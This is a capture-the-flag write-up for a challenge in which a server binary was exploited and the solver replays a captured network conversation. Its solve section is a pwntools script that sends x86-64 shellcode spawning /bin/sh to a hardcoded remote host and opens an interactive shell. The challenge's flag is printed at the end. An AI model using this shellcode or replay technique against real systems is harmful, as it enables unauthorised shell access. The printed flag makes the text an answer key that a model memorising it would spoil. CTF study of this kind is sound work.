

### description
---
Brainiac has exploited a binary running on our server on the space station, thankfully the binary is still running but our data was stolen. We also were able to get a network traffic capture when Brainiac exploited our server. He also defaced the binary as well.

The flag is on the server that is running.

File: exploit.pcap

### solve
---
*  Follow the tcp stream in the exploit.pcap file to see the conversation. 
* Mirror this conversation and read flag.txt

```python
import socket
from pwn import *

REMOTE_IP = '165.227.210.30'
REMOTE_PORT = 16306

s = remote(REMOTE_IP, REMOTE_PORT)

resp1 = s.recv(99999)
resp2 = b''
for c in range(281):
    part = s.recv(1024)
    resp2 += part
print(resp2)
message = b'\x41\x59\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\x48\xc7\xc1\x80\x10\x40\x00\xff\xd1\x0a'
s.sendline(message)
resp3 = b''
for c in range(16):
    part = s.recv(1024)
    resp3 += part
print(resp3)
message = b'\x00\x00\x11\xca\x00\x00\x00\x00\x0a'
s.sendline(message)
resp4 = b''
for c in range(22):
    part = s.recv(1024)
    resp4 += part
print(resp4)
message = b'\x41\x41\x41\x41\x41\x41\x41\x41\x0a'
s.interactive()
```
Flag:
```
shctf{1_4m_n0t_pr0gr4mm3d_t0_3xp3r13nc3_hum0r}
```